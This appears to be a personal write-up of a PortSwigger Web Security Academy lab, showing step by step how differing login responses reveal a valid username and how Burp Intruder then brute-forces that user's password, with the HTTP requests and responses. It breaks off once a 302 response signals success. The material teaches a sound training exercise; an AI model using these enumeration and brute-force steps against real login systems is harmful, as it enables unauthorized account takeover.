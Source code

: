 # Authentication vulnerabilities
https://portswigger.net/web-security/authentication



# 1. Lab: Username enumeration via different responses
https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

1. we enter  the login page and send a test login:

```
req:
POST /login HTTP/1
...
username=a&password=a

res:
HTTP/1.1 200 OK
..
Invalid username
```

we have a tell for enumerating the username

2. send to **intruder**
```
req:
POST /login HTTP/1.1
..
username=§a§&password=a
```
(use supplied username list to enumerate the **§a§** parameter)

responses:
all resonses are HTTP/1.1 200 OK
all response but 1 have Content-Length of 3096 with **Invalid username** message
one response has Content-Length of 3098 - and a message of **Incorrect password**

we now have a Valid username: **app**

3. lets change the intruder parameters to brute-force the password:

```
req:
POST /login HTTP/1.1
..
username=app&password=§a§
```
(use supplied password list to enumerate the **§a§** parameter)

all responses but 1 are **HTTP/1.1 200 OK**
one response has a **HTTP/1.1 302 Found** - indication the we have a breach
